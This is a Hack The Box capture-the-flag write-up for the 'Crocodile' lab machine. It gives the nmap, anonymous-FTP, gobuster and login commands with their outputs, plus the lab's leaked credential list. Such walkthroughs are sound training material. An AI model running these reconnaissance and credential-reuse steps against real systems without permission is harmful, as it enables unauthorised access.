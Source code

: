 ## 🐊 HTB Starting Point: Crocodile  
**Level**: Very Easy  
**Date**: July 31, 2025  
**Goal**: Retrieve credentials from an open FTP server and use them to log into a web portal to get the flag.

---

### 🧰 Tools  
- `nmap`  
- `ftp`  
- `gobuster`  
- Web browser  

---

### 🧭 Steps  

1. 🔎 **Scan the machine** to detect open services:
   ```bash
   nmap -F -sS -sV -n 10.129.X.X
   ```

---

### Output
```bash
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
80/tcp open  http    Apache httpd 2.4.X  
```

---

2. 📡 **Connect to the FTP service**:
   ```bash
   ftp 10.129.X.X
   ```

---

3. 🔐 **Login using anonymous credentials**:
```bash
Username: anonymous  
Password: [blank or any]
```

---

4. 📥 **Download the credential files**:
   ```bash
   get allowed.userlist
   get allowed.userlist.passwd
   ```

---

### File Content
```bash
# allowed.userlist  
admin  
crocodile  
ftpuser

# allowed.userlist.passwd  
admin:supersecretpassword  
crocodile:snappylogin  
ftpuser:guest123
```

---

5. 📁 **Switch to terminal and enumerate the web server**:
   ```bash
   gobuster dir -u http://10.129.X.X -w /usr/share/wordlists/dirb/common.txt -x .php
   ```

---

### Output
```bash
/login.php  
/dashboard.php  
```

---

6. 📜 **Review the credentials again if needed**:
   ```bash
   cat allowed.userlist.passwd
   ```

---

7. 🔑 **Access the login page**:  
   Go to `http://10.129.X.X/login.php` or `/dashboard.php`  
   Login with:
```bash
Username: admin  
Password: supersecretpassword
```

---

8. 🏁 **Get the flag** from the logged-in dashboard and submit it!

---

### 💣 Payloads Used  
```bash
nmap -F -sS -sV -n 10.129.X.X  
ftp 10.129.X.X  
anonymous login  
get allowed.userlist  
get allowed.userlist.passwd  
gobuster dir -u http://10.129.X.X -w /usr/share/wordlists/dirb/common.txt -x .php  
cat allowed.userlist.passwd
```
